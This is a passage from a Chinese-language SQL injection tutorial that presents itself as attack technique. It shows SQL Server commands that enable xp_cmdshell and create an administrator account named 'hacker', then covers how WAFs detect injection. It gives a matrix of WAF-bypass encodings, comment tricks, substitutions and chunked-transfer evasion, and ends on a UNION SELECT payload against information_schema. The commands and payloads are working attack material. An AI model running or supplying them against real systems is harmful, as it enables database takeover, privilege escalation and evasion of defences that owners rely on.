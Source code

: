 ```markdown
```

- **SQL Server扩展存储过程利用**：
```sql
-- 启用xp_cmdshell组件
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

-- 执行系统命令
EXEC xp_cmdshell 'net user hacker P@ssw0rd /add'; -- 创建系统用户
EXEC xp_cmdshell 'net localgroup administrators hacker /add'; -- 提升为管理员
```

## 第五章：长Payload拆分与WAF绕过艺术
### 5.1 WAF检测原理剖析
现代WAF（Web应用防火墙）通过多层检测机制拦截SQL注入攻击，其核心流程如下：

```mermaid
graph LR
A[请求] --> B[规则匹配层]
A --> C[语法分析层]
A --> D[行为分析层]
B -->|关键词过滤| E[拦截]
C -->|SQL解析树异常| F[拦截]
D -->|异常请求频率| G[拦截]
```

- **规则匹配层**：基于特征库拦截包含`UNION`、`SELECT`、`DROP`等关键词的请求。
- **语法分析层**：对请求中的SQL片段进行语法解析，识别异常结构（如多层嵌套、特殊函数调用）。
- **行为分析层**：通过统计请求频率、参数变化规律等，识别自动化注入工具的扫描行为。

### 5.2 高级绕过技术矩阵

| 技术类别   | 具体方法                                                     | 适用场景          |
| ---------- | ------------------------------------------------------------ | ----------------- |
| 编码混淆   | HEX编码：`UNION`→`0x554E494F4E`；URL编码：`SELECT`→`%53%45%4C%45%43%54`；Unicode编码：`'`→`%u0027` | 关键词特征过滤    |
| 语法分割   | 内联注释：`UNION/*!50000SELECT*/`；换行符：`UNION%0ASelect`；Tab符：`UNION%09SELECT` | 语法结构检测      |
| 等价替换   | 函数替换：`version()`→`@@version`；运算符替换：`OR`→`||`；逻辑替换：`=``LIKE` | 规则匹配拦截      |
| 逻辑干扰   | 无意义条件：`AND 1=1`→`AND (1=1 OR 2=3)`；冗余函数：`SELECT`→`SELECT/**/1/**/FROM` | 简单语法分析      |
| 协议级绕过 | 分块传输：将Payload拆分到多个HTTP分块；参数污染：`id=1&id=2' UNION...` | WAF与后端解析差异 |

### 5.3 长Payload拆分实战
当完整Payload被WAF拦截时，需通过拆分和变形绕过检测：

**原始Payload（被拦截）**：
```sql
UNION SELECT NULL,table_name,column_name 
FROM information_schema.columns 
WHERE table_schema=DATABASE()
```

